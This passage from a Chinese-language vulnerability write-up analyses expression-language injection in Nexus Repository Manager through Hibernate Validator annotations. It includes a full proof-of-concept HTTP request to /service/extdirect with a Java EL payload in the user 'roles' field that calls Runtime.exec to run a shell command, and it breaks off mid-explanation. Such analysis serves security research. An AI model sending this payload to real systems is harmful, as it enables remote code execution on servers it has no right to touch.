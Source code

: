 
可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下

```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.029301195082771514
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 350
Connection: close
Referer: http://127.0.0.1:8081/
Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5 `{“action”:“coreui_User”,“method”:“create”,“data”:[{“[userId":“3”,“version”:"",“firstName”:“test”,“lastName”:“test”,“email”:"test@test.com](mailto:userId%22:%223%22,%22version%22:%22%22,%22firstName%22:%22test%22,%22lastName%22:%22test%22,%22email%22:%22test@test.com)”,“status”:“active”,“roles”:["$\X{’’.getClass().forName(‘java.lang.Runtime’).getMethods()[6].invoke(’’.getClass().forName(‘java.lang.Runtime’)).exec(‘touch /tmp/rce’)}"],“password”:“admin”}],“type”:“rpc”,“tid”:33}` 
```

![image](img/52415b95d61771053a72480d83632881.png)

以及其他几处注解使用的地方

![image](img/dc5cc352e3667292d0f41864986487c8.png)

还有一个问题为什么增加`\A`不会影响表达式的解析呢?

在`/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class`对传入的字符串进行了两次处理,
